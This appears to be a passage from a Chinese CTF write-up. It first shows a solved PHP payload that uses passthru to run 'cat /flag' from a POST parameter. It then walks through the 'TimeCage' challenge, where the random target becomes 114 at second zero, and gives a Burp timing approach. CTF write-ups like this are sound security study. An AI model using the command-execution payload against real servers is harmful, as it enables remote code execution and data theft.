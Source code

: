 ```
incompetent=HelloHacker&WuCup=oxzverapn;passthru("$_POST[a]");&a=cat /flag
```

### TimeCage

**题目介绍:** 你知道时间吗？

```
<?php
show_source(__FILE__);
include 'secret.php';
if(isset($_GET['input'])){
    $guess = $_GET['input'];
    $target = random_int(114 , 114 + date('s') * 100000);
    if(intval($guess) === intval($target)){
        echo "The next challenge in ".$key1;
    }
    else{
        echo "Guess harder.";
    }
}
```

这里的随机数范围，只需要等待时间到达0秒，那么target就是114

可以在50多秒的时候用bp发包

![](./images/image-3.png)
